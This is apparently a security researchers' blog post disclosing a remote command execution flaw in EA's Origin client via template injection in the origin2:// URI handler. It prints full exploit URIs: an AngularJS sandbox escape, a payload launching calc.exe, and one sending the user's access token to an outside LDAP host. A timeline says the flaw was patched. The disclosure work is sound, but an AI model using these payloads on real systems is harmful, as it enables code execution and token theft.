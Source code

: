 ```yaml
---
layout: post
title: "RCE in EA's Origin client"
date: 2019-04-16
author: Admin
img: post01.jpg
thumb: thumb01.jpg
---
```


Hello, and welcome! As you probably gathered by the title, today we will be going over a remote command execution vulnerability identified in EA's Origin desktop client. This issue was both identified and reported by Dominik Penner and Daley Bee of Underdog Security.

### What is Origin?
Origin is an online gaming, digital distribution and digital rights management platform developed by Electronic Arts that allows users to purchase games for PC and mobile platforms. Origin is home to gaming title giants such as Apex Legends, The Sims, and Battlefield. 
### What did we find?
We located a client-sided template injection, where we proceeded to use an AngularJS sandbox escape and achieve RCE by communicating with QtApplication's QDesktopServices.
### Technical explanation
We were simply curious and looking around at the `origin2` URI handler, when we came across a parameter where we could supply data that would be echoed back to us in the Origin client, prompting us to start tinkering. 

Example: 
{% highlight ruby %}
{% raw %}
origin2://game/launch?offerIds=0&title=example
{% endraw %}
{% endhighlight %}

![example title](/assets/origin_orce/example_title.jpg)

After some quick testing, we learnt that there was a client-sided template injection in the `title` parameter. 

{% highlight ruby %}
{% raw %}
origin2://game/launch?offerIds=0&title={{668.5*2}}
{% endraw %}
{% endhighlight %}

![1337 template injection](/assets/origin_orce/template_injection.jpg)

What next!? We already knew due to prior tinkering that Origin ran on AngularJS. Thanks to amazing work by other researchers in the past, with a simple Google search, we can find plenty of working AngularJS sandbox escapes. We used these: [link to payloads](https://gist.github.com/mccabe615/cc92daaf368c9f5e15eda371728083a3)

With these payloads, we were able to escape the AngularJS sandbox using the template injection. This is the payload we used: 

{% highlight ruby %}
{% raw %}
{{a=toString().constructor.prototype;a.charAt=a.trim;$eval('a,alert(l),a')}}
{% endraw %}
{% endhighlight %}

The entire payload ended up becoming: 

{% highlight ruby %}
{% raw %}
origin2://game/launch?offerIds=0&title={{a=toString().constructor.prototype;a.charAt=a.trim;$eval('a,alert(1),a')}}
{% endraw %}
{% endhighlight %}

![sandbox escape](/assets/origin_orce/sandbox_escape.jpg)

We then learnt that by leveraging the in-client API, you can communicate with the QtApplication's QDesktopServices. 

To pop a calculator, we used the following payload:

{% highlight ruby %}
{% raw %}
origin2://game/launch?offerIds=0&title={{a=toString().constructor.prototype;a.charAt=a.trim;$eval('a,Origin.client.desktopServices.asyncOpenUrl("calc.exe"),a')}}
{% endraw %}
{% endhighlight %}

As normal with an RCE, this would've allowed an attacker to execute any kind of commands their heart desired on a targets machine. Not good to say the least...

An attacker could also steal a users access token many of ways, for example, through LDAP: 

{% highlight ruby %}
{% raw %}
origin2://game/launch?offerIds=0&title={{a=toString().constructor.prototype;a.charAt=a.trim;$eval('a,Origin.client.desktopServices.asyncOpenUrl("ldap://safe.tld/o="+Origin.user.accessToken()+",c=UnderDog"),a')}}
{% endraw %}
{% endhighlight %}

Moral to the story Origin; sanitize your inputs!

Thank you for reading!

----
### Disclosure timeline
* April 15, 2019 - Vulnerability identified
* April 16, 2019 - Vulnerability reported
* April 16, 2019 - Vulnerability patched
* April 16, 2019 - Public disclosure

* Dominik Penner - [Twitter](https://twitter.com/zer0pwn)
* Daley Bee - [Twitter](https://twitter.com/daley)
